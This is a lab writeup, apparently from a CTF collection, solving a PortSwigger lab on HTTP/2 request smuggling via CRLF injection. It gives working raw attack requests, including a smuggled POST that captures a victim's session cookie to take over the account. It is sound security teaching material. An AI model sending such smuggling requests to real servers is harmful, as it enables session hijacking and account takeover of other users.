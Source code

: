 # HTTP/2 request smuggling via CRLF injection

## Introduction

Welcome to my another writeup! In this Portswigger Labs [lab](https://portswigger.net/web-security/request-smuggling/advanced/lab-request-smuggling-h2-request-smuggling-via-crlf-injection), you'll learn: HTTP/2 request smuggling via CRLF injection! Without further ado, let's dive in.

- Overall difficulty for me (From 1-10 stars): ★★☆☆☆☆☆☆☆☆

## Background

This lab is vulnerable to request smuggling because the front-end server downgrades HTTP/2 requests and fails to adequately sanitize incoming headers.

To solve the lab, use an HTTP/2-exclusive request smuggling vector to gain access to another user's account. The victim accesses the home page every 15 seconds.

If you're not familiar with Burp's exclusive features for HTTP/2 testing, please refer to [the documentation](https://portswigger.net/burp/documentation/desktop/http2) for details on how to use them.

> Note:
>  
> This lab supports HTTP/2 but doesn't advertise this via ALPN. To send HTTP/2 requests using Burp Repeater, you need to enable the [Allow HTTP/2 ALPN override](https://portswigger.net/burp/documentation/desktop/http2#allow-http-2-alpn-override) option and manually [change the protocol to HTTP/2 using the Inspector](https://portswigger.net/burp/documentation/desktop/http2#changing-the-protocol-for-a-request).
>  
> Please note that this feature is only available from [Burp Suite Professional / Community 2021.9.1](https://portswigger.net/burp/releases).

## Exploitation

**Home page:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-13/images/Pasted%20image%2020230215141623.png)

**Login page:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-13/images/Pasted%20image%2020230215141726.png)

In here, the web application has a login page. That being said, **if we can capture other user's requests, we could potentially takeover their account.**

To do so, we can try to do **HTTP request smuggling**.

**First, test the web application accept HTTP/2 (HTTP version 2) or not:**

> To send HTTP/2 requests using Burp Repeater, you need to enable the [Allow HTTP/2 ALPN override](https://portswigger.net/burp/documentation/desktop/http2#allow-http-2-alpn-override) option and manually [change the protocol to HTTP/2 using the Inspector](https://portswigger.net/burp/documentation/desktop/http2#changing-the-protocol-for-a-request).
> 
> ![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-13/images/Pasted%20image%2020230215142016.png)
> 
> ![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-13/images/Pasted%20image%2020230215142033.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-13/images/Pasted%20image%2020230215142050.png)

As you can see, it accepts HTTP/2.

Now, we can test the web application is vulnerable to **H2.CL (Front-end uses HTTP/2, back-end uses `Content-Length` header) via downgrading HTTP/2 requests.**

- H2.CL:

**Attack request:**
```http
POST / HTTP/2
Host: 0a5e001603e9ba1cc0630ad000180094.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 0

GET /404pls HTTP/1.1
Host: 0a5e001603e9ba1cc0630ad000180094.web-security-academy.net
Content-Length: 25

smuggled=yes
```

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-13/images/Pasted%20image%2020230215142532.png)

However, when we send the request, nothing happen.

We can also try **H2.TE (Front-end uses HTTP/2, back-end uses `Transfer-Encoding` header) via downgrading HTTP/2 requests.**

- H2.TE:

**Attack request:**
```http
POST / HTTP/2
Host: 0a5e001603e9ba1cc0630ad000180094.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 35
Transfer-Encoding: chunked

0

GET /404pls HTTP/1.1
X:Foo: x
```

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-13/images/Pasted%20image%2020230215144447.png)

Still nothing?

Maybe we can do **request smuggling via CRLF (Carriage Return `\r`, Line Feed `\n`) injection?**

Even if websites take steps to prevent basic H2.CL or H2.TE attacks, such as validating the `content-length` or stripping any `transfer-encoding` headers, HTTP/2's binary format enables some novel ways to bypass these kinds of front-end measures.

In HTTP/1, we can sometimes exploit discrepancies between how servers handle standalone newline (`\n`) characters to smuggle prohibited headers. If the back-end treats this as a delimiter, but the front-end server does not, some front-end servers will fail to detect the second header at all.

```http
Foo: bar\nTransfer-Encoding: chunked
```

This discrepancy doesn't exist with the handling of a full CRLF (`\r\n`) sequence because all HTTP/1 servers agree that this terminates the header.

On the other hand, as HTTP/2 messages are binary rather than text-based, the boundaries of each header are based on explicit, predetermined offsets rather than delimiter characters. This means that `\r\n` no longer has any special significance within a header value and, therefore, can be included **inside** the value itself without causing the header to be split:

`foo``bar\r\nTransfer-Encoding: chunked`

This may seem relatively harmless on its own, but when this is rewritten as an HTTP/1 request, the `\r\n` will once again be interpreted as a header delimiter. As a result, an HTTP/1 back-end server would see two distinct headers:

```http
Foo: bar
Transfer-Encoding: chunked
```

Let's try to **inject `Transfer-Encoding` header via CRLF injection**!

**To do so, we need to use the Inspector to drill down into the header, add a new header, then press the `Shift + Return` keys in the value input box:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-13/images/Pasted%20image%2020230215144531.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-13/images/Pasted%20image%2020230215144559.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-13/images/Pasted%20image%2020230215144618.png)

Then send the request twice:

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-13/images/Pasted%20image%2020230215144637.png)

Yes! We successfully triggered a 404 response! Which means **the web application is vulnerable to HTTP request smuggling via H2.TE and CRLF injection!**

But, how can we capture users' request in the login page??

**In the home page, we can search something:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-13/images/Pasted%20image%2020230215144813.png)

Let's search for anything:

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-13/images/Pasted%20image%2020230215144830.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-13/images/Pasted%20image%2020230215144839.png)

Burp Suite HTTP history:

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-13/images/Pasted%20image%2020230215144854.png)

When we clicked the "Search" button, **it'll send a POST request to `/`, with parameter `search`.**

***Most importantly, it's stored in our session!***

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-13/images/Pasted%20image%2020230215145004.png)

Armed with above information, we can capture other users' requests via **smuggling a POST request to `/` with a big `Content-Length` value.**

**Attack request:**
```http
POST / HTTP/2
Host: 0a5e001603e9ba1cc0630ad000180094.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 35
foo: bar\r\nTransfer-Encoding: chunked

0

POST / HTTP/1.1
Host: 0a5e001603e9ba1cc0630ad000180094.web-security-academy.net
Cookie: session=g5VS4PaNaMcMZ1uI02pCFquZaqDzxPW4; _lab_analytics=WKesnTTuo8aqDwQZi1tet4JIbNutweZ7odsZVzSSLjPiagwKcmsIKJMVDq0UPBXuGn04iuFmgisVdmi9vBegM8v0V072K5R4dZhnMwSyZFyJ2UKw5wgMVsMb4VAehnlg2thHlf4WqEXcOVZcmH0HkTilNqh4DLOwpikt9VGEAiRR4L24jChh4282BHUaiKZWY5pGPKXbyEJrPfHedNvv50yDmjm6pbAgZreZJCkCM7nB9IAddhomuaPrF8vY5E1o
Content-Type: application/x-www-form-urlencoded
Content-Length: 800

search=
```

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-13/images/Pasted%20image%2020230215145829.png)

**Then, in the home page:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-13/images/Pasted%20image%2020230215145848.png)

We captured the victim's session cookie!!

**Finally, modify our session cookie to the victim one:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-13/images/Pasted%20image%2020230215150026.png)

Boom! We takeovered `carlos` account!

# What we've learned:

1. HTTP/2 request smuggling via CRLF injection